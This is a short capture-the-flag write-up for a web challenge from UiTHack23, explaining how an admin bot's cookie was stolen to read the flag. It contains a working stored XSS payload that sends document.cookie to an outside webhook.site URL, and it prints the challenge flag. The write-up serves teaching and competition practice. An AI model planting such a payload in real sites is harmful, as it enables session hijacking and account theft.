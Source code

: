 > # WEB - 150
>
> Bill gates approves this design

## Writeup

Get a dummy server here or anything to listen for requests
![https://webhook.site/]

Add xss script to the form data
`<img src=x onerror="this.src='https://webhook.site/3dfcb0ae-77ef-40f3-b844-154f74b62185/?'+document.cookie; this.removeAttribute('onerror');">`

Cronjob/admin is set to load the admin page every minute. Triggers the script and will send a request with the cookie as parameter to the server.

Connect to the server cat/vim/nano flag.txt

`UiTHack23{xxspl0its_4r3_phun}`
